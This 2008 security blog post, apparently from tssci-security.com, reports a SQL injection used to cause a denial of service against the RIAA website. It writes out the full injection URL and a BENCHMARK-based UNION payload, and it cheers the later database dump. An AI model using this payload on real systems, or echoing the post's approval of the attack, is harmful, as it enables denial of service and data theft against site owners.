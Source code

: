 author: Marcin
disqus_id: 70cdae65-fc83-40dd-b806-36a90b2c1a0b
disqus_url: http://www.tssci-security.com/archives/2008/01/20/sql-injection-fun-vriaa/
mod_date: 2008-01-20 16:39:00
parent: 0
post_id: 366
post_type: post
pub_date: 2008-01-20 16:37:34
public: 'yes'
slug: sql-injection-fun-vriaa
tags:
- Hacking
- News
template: post.html
title: SQL Injection Fun v.RIAA

SQL Injection Fun v.RIAA
########################

What started as a simple `DoS against the RIAA through a SQL injection
vulnerability <http://reddit.com/info/660oo/comments/>`_, originally
posted to Reddit in `tinyurl
form <http://riaa.com/news_room.php?resultpage=9&news_year_filter=2007%20UNION%20ALL%20SELECT%20BENCHMARK(100000000,MD5('asdf')),NULL,NULL,NULL,NULL%20-->`_.

``UNION ALL SELECT BENCHMARK(100000000,MD5('asdf')),NULL,NULL,NULL,NULL%20--``

led an attacker on to dump their entire database. I sure hope they don't
have backups -- part of me thinks they deserve it and wants them to
suffer... muwhahaha
